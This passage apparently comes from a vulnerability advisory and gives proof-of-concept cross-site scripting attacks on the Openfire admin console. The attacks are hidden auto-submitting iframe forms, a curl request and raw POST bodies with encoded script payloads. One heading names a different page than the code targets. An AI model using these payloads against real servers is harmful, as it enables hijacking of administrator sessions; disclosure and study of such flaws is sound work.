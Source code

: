 The following code allows the creation of a web frame exploiting the vulnerability:

```
<iframe style="display:none" name="xss-frame"></iframe>
<form id="xss-form" action="http://OpenFireServerIP:9090/server-properties.jsp" method="post" target="xss-frame" >
<input type="text" name="propValue" value="=adminConsole.port" >
<input type="text" name="searchname" value="9090%22 onmouseover=%22alert('XSS')%22 x="/>
<input type="text" name="encrypt" value="false" >
<input type="text" name="save" value="Save Property" >
</form>

<script>document.getElementById("xss-form").submit()</script>
```

or with this curl command:

```
curl --data "searchEnabled=true&searchname=search%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&groupOnly=false" https://OpenFireServerIP:9090/plugins/search/search-props-edit-form.jsp --cookie="JSESSIONID=XXX"
```

#### *serverName* variable from *plugins/search/search-props-edit-form.jsp*

The following POST values can be sent to trigger the vulnerability:

```
serverName=localhost.localdomain%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E&serverPort=5269&componentPort=5275&port=5222&sslEnabled=true&sslPort=5223&embeddedPort=9090&embeddedSecurePort=9091&jmxEnabled=false&jmxSecure=true&jmxPort=1099&save=Save+Properties
```

The following code allows the creation of a web frame exploiting the vulnerability:

```
<iframe style="display:none" name="xss-frame"></iframe>
<form id="xss-form" action="http://OpenFireServerIP:9090/server-props.jsp" method="post" target="xss-frame" >
<input type="text" name="serverName" value="localhost.localdomain%22%2F%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E" >
<input type="text" name="serverPort" value="5269" >
<input type="text" name="componentPort" value="5275" >
<input type="text" name="port" value="5222" >
<input type="text" name="sslEnabled" value="true" >
<input type="text" name="sslPort" value="5223" >
<input type="text" name="embeddedPort" value="9090" >
<input type="text" name="embeddedSecurePort" value="9091" >
<input type="text" name="jmxEnabled" value="false" >
<input type="text" name="jmxSecure" value="true" >
<input type="text" name="jmxPort" value="1099" >
<input type="text" name="save" value="Save+Properties" >
</form>

<script>document.getElementById("xss-form").submit()</script>
```
